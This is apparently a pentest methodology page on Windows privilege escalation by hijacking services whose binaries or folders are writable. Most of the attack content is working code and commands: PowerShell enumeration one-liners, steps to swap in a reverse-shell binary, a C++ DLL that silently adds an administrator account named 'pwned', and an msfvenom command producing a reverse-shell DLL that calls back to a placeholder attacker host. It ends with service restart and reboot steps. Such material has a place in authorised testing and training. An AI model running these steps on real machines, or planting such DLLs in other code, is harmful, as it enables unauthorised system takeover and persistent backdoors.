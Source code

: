 ```yaml
---
description: MITRE ATT&CK™ Hijack Execution Flow - Technique T1574
---
```


# Weak File/Folder Permissions

## Theory

It is very often in Windows environments to discover services that run with SYSTEM privileges. If you have write permissions over the folder or binary used by the service you can use it to escalate you privileges.

## Practice

### Service Binary Hijacking

{% tabs %}
{% tab title="Enumerate" %}
Given sufficient permissions over a service's binary, swapping it with our own binary enables us to gain code execution as the user configured to run this service.

To identify weaknesses in service binary permissions, we can take the following steps: retrieve a complete list of all service binary files, retrieve their permissions, identify specific ones for our controlled user.

We can perform such enumeration by using one of the following methods:

#### CMD

```powershell
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt
for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

#### PowerShell

```powershell
Get-WmiObject Win32_Service | ForEach-Object { $serviceName = $_.Name; $path = $_.PathName; $startName = $_.StartName; if ($path -ne $null -and $path -ne "") { $formattedPath = if ($path -match '.*\.exe') { if ($path -match '^"(.+?\.exe)') { $matches[1] } else { $path -replace '^(.*\.exe).*', '$1' } } else { $path }; $acl = try { Get-Acl -Path $formattedPath -ErrorAction Stop } catch { $null }; if ($acl -ne $null) { $relevantACE = $acl | Select-Object -ExpandProperty Access | Where-Object { $_.FileSystemRights -match 'Write|FullControl|Modify' }; if ($relevantACE) { [PSCustomObject]@{ ServiceName = $serviceName; FormattedPath = $formattedPath; StartName = $startName; ACL = $relevantACE | Select-Object -Property IdentityReference, FileSystemRights | Format-List | Out-String } } } } } | Sort-Object -Property FormattedPath -Unique | Format-List
```

#### PowerUp

```powershell
. .\PowerUp.ps1
Get-ModifiableServiceFile
```

#### winPEAS

```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}
If we find an editable service binary, we can simply replace it with a malicious one as follow:

```powershell
# Backup the binary
copy /y "c:\Program Files\File Permissions Service\filepermservice.exe" c:\Temp\filepermservice_backup.exe

# Hijack the binary 
copy /y c:\Temp\reverse.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
```

Then, restart the service to trigger the execution

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```

{% hint style="success" %}
If we can't restart the service, we may check if it has `StartMode`set to `Auto`.&#x20;

If so, we can reboot the target to trigger the new binary (we will need the `SeShutdownPrivilege`for that).

```powershell
#Exemple of getting StartMode for MySVC
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'MySVC'}

#Reboot
shutdown /r /t 0 
```
{% endhint %}
{% endtab %}
{% endtabs %}

### Service DLL Hijacking

{% hint style="info" %}
DLL hijacking can be applied in many other cases, but this section focuses solely on services. For a more comprehensive approach, please refer to [this page](../dll-hijacking.md).
{% endhint %}

{% tabs %}
{% tab title="Enumerate" %}
In case you have write permissions over the service binary folder, we can write our DLL in and then hijack the DLL search order. Here is the default DLL search order in windows (in safe mode which is the default):&#x20;

1. The executable directory.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.

We can enumerate permissive service folders by using the following PowerShell command

```powershell
Get-WmiObject Win32_Service | ForEach-Object { $s = $_.Name; $p = $_.PathName; $start = $_.StartName; if ($p -ne $null -and $p -ne "") { $f = if ($p -match '.*\.exe') { if ($p -match '^"(.+\\)') { $matches[1] } else { $p -replace '^(.*\\).*', '$1' } } else { $p }; $a = try { (Get-Acl -Path $f -ErrorAction Stop).Access | Where-Object { $_.FileSystemRights -match 'Write|FullControl|Modify' } } catch { $null }; if ($a) { [PSCustomObject]@{ ServiceName = $s; StartName = $start; ExecutableFolder = $f; FolderACL = $a | Select-Object IdentityReference, FileSystemRights | Format-List | Out-String } } } } | Sort-Object -Property ExecutableFolder -Unique | Format-List
```

If we find a writable service folder, we first want to exfiltrate its service binary to a local windows machine. On this controlled computer, download [Process Monitor (procmon)](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) to monitor for missing or hijackable DLLs.

In procomon, specify this three filters (edit the service name with yours):

<figure><img src="../../../../.gitbook/assets/Capture d’écran_2023-11-09_01-29-36.png" alt=""><figcaption><p>Procmon Filters</p></figcaption></figure>

We may find some `CreateFile` actions with a `NAME NOT FOUND` result for a dll inside of the writable service binary folder. If so we can use this DLL name for DLL Hijacking !

<figure><img src="../../../../.gitbook/assets/Capture d’écran_2023-11-09_01-32-10.png" alt=""><figcaption><p>DLL Not Found</p></figcaption></figure>
{% endtab %}

{% tab title="Exploit" %}
If we've found a DLL we can hijack, the hard part is over. Now let's compile a custom DLL using the following code (in this example, the vulnerable DLL is named "hijackme.dll").

{% code title="hijackme.cpp" %}
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user pwned P@ssword! /add");
  	    i = system ("net localgroup administrators pwned /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
{% endcode %}

```bash
#Compile it
x86_64-w64-mingw32-gcc hijackme.cpp --shared -o hijackme.dll
```

Or use msfvenom to directly generate a malicious DLL.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> EXITFUNC=thread -f dll -o hijackme.dll
```

Now, after transferring the DLL to the target host, copy the DLL to the path we found.

```powershell
# Hijack the DLL 
copy /y c:\Temp\hijackme.dll "C:\Program Files\Folder Permissions Service\hijackme.dll"
```

Finaly, restart the service to trigger the execution

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```

{% hint style="success" %}
If we can't restart the service, we may check if it has `StartMode`set to `Auto`.&#x20;

If so, we can reboot the target to trigger the new binary (we will need the `SeShutdownPrivilege`for that).

```powershell
#Exemple of getting StartMode for MySVC
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'MySVC'}

#Reboot
shutdown /r /t 0 
```
{% endhint %}
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---incorrect-permissions-in-services" %}
